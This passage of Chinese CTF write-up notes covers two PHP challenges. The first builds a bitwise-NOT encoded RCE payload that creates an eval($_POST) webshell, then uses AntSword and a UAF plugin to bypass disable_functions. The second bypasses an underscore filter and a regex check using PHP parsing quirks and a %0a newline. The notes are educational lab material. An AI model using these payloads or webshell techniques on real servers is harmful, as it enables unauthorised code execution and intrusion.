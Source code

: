 无字母无数字，考虑异或RCE和取反RCE，异或的payload太长，参考别人的用取反

```php
echo (~'phpinfo')
#%8F%97%8F%96%91%99%90

#尝试system函数没有回显，一片黑
```
```php
echo urlencode(~'assert')."\n";

echo urlencode(~'(eval($_POST[a]))');

#%9E%8C%8C%9A%8D%8B
#%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6%D6
```
不明白为什么连起来写成功不了

`?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6%D6);`

连蚁剑

用蚁剑的UAF插件绕过

终端运行`readflag`

>蚁剑从插件市场安装插件要先设置本地代理，要不然就下载源码放到antSword-master\antData\plugins目录下

=========================================================
# [MRCTF2020]套娃
>https://blog.csdn.net/m0_52199518/article/details/115997713

什么也没有是不可能的，直接打开源码

```php
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}

```

要求检测到传值不能有下划线，但是变量名得有下划线，利用PHP变量解析漏洞，下划线换成空格传值

下面要求传的值不等于`23333`但又要求值以`23333`开头并结尾,可以在末尾加入换行符`%0a`

`b u p t=23333%0a`

![在这里插入图片描述](https://img-blog.csdnimg.cn/93ad38305b544828b5cd5ad21f7c13c5.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a90d23b87a5244539ea5ad12a3c71f70.png)
源码里有一段脚本，能从console直接运行的
